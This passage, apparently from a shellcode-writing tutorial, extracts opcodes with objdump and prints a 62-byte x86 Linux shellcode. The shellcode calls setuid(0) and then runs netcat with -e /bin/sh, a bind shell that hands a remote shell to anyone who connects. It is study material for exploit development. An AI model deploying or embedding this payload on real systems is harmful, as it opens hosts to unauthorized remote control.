  <img src="assets/shellcode-c137-test4.png" style="border-radius: 10px;" alt="shellcode-c137-test4.png">
</div>

There are no null bytes. What's left is to extract the opcodes.
```
root@kali:~# for i in `objdump -d shellcode-c137 | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done
```
It takes the output of *objdump -d shellcode-c137*{: style="color: LightGreen"}, then replaces tabs with spaces, then replaces spaces with newlines and gets only the lines consisting of hex values. It loops through the hex values prepending \x and prints them.

And the resulting shellcode is:
```
\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52
\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e
\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68
\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68
\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89
\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58
\xcd\x80
```

```
>>> len('\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58\xcd\x80')
62
```
